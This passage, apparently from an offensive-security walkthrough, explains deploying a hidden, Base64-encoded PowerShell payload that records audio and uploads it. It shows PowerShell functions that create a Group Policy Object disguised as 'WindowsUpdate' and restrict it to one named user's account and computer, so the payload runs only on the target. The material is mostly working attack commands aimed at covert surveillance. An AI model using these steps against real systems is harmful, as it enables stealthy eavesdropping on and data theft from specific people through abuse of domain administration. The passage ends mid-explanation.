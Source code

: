 - -W Hidden: Ensures that the PowerShell window remains hidden, keeping the execution stealthy.

- -enc: Specifies that the following string is a Base64-encoded command.

Overall, this command will decode the Base64 string and execute the original PowerShell script, recording and uploading audio files as intended.

With the payload ready, the next step is to create and deploy a Group Policy Object (GPO) to execute it on the target machine. We'll start by initializing the necessary Group Policy modules in PowerShell. By wrapping the initialization in a PowerShell function, we can easily call it later on:

```
function initialize-gpo(){
    Add-WindowsFeature GPMC
    import-module group-policy
    write-output "Initialization Done!"
}
```

Notes:

- ```Add-WindowsFeature GPMC```: Installs the Group Policy Management Console (GPMC) feature, necessary for managing GPOs.

- ```import-module group-policy```: Imports the Group Policy module, enabling the use of GPO-related cmdlets within PowerShell.

- Wrapping this in a function allows for quick re-use and makes the script modular and cleaner.

Next, we create a new GPO named WindowsUpdate and target it to the GBHR domain controller, SR0088:

```
function create-gpo() {
    New-GPo -name WindowsUpdate -domain GBHR.CORP -Server SR0088.GBSHR.CORP
```

Notes:

- ```New-GPo -name WindowsUpdate```: Creates a new GPO named WindowsUpdate.

- ```-domain GBHR.CORP```: Specifies the domain to which the GPO will apply.

- ```-Server SR0088.GBSHR.CORP```: Defines the domain controller where the GPO will be created.

To ensure that only Elise's account on the computer SPHR0098 is affected, we set specific permissions on the GPO:

```
    Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel GpoApply -TargetName "ejansen" -TargetType user
    Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel GpoApply -TargetName "SPHR0098" -TargetType computer
    Set-GPPermissions -Name "WindowsUpdate" -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
```

Notes:

- ```Set-GPPermissions -Name "WindowsUpdate"```: Applies specific permissions to the WindowsUpdate GPO.
